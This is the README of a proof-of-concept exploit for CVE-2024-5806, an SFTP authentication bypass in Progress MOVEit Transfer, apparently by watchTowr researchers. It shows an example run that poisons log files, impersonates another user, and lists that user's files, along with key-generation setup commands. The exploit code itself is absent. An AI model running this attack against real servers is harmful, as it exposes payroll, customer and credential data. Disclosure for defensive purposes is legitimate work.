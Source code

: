 # CVE-2024-5806

Exploit for Progress MOVEit Transfer CVE-2024-5806. See our blog post at [TBD].

# PoC in Action

See `--help` for, well, help. A typical run should look like this:

```
> python CVE-2024-5806.py --target-ip 192.168.1.1 --target-user user2 --ppk id.ppk --pem id
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        CVE-2024-5806.py
        (*) Progress MoveIT Transfer SFTP Authentication Bypass (CVE-2024-5806)
          - Aliz Hammond, watchTowr (aliz@watchTowr.com)
          - Sina Kheirkhah (@SinSinology), watchTowr (sina@watchTowr.com)
        Note: We (watchTowr) aren't the original discoverers of the bug, we just reproduced it and wrote the exploit
              in order to enable proactive protection of client attack surfaces.
              We will update with proper credit when available.
        CVEs: [CVE-2024-5806]

(*) Poisoning log files multiple times to be sure...
..........OK
(*) Waiting 60 seconds for logs to be flushed to disk
(*) Attempting to authenticate..
(*) Trying to impersonate user2 using the server-side file path 'C:\MOVEitTransfer\Logs\DMZ_WEB.log'
(+) Authentication succeeded.
(+) Listing files in home directory of user user2:

-rw-rw-rw- 1 0 0 1.4M Jun 11 11:39 stocks.xlsx
-rw-rw-rw- 1 0 0 2.4M Jun 13 13:32 customer_list.xlsx
-rw-rw-rw- 1 0 0 2.3M Jun 15 12:16 payroll_Jun.csv
-rw-rw-rw- 1 0 0 1.2M Jan 21 10:03 my_signature.png
-rw-rw-rw- 1 0 0  304 Jun 17 17:29 passwords.txt
```


# Setup
To run the exploit, you'll need a keypair in both PEM and PPK format. On Windows, you can use `puttygen` to generate these files. On Linux, you can use `openssh` and `putty-tools` package. Just hit enter when prompted for a key.

```bash
$ sudo apt-get install openssh-client putty-tools
$ puttygen -t rsa -b 2048 -o putty_key.ppk
Enter passphrase to save key:
Re-enter passphrase to verify:
$ puttygen putty_key.ppk -O private-openssh -o id_rsa
```

# Affected Versions

This vulnerability is fixed in Progress MOVEit version `2024.0.2`.

# Exploit authors

This exploit was written by [Aliz (@AlizTheHax0r)](https://x.com/AlizTheHax0r) and [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) of [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber)

# Follow [watchTowr](https://watchTowr.com) Labs
For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team

- https://labs.watchtowr.com/
- https://twitter.com/watchtowrcyber
- [blog link TBD]
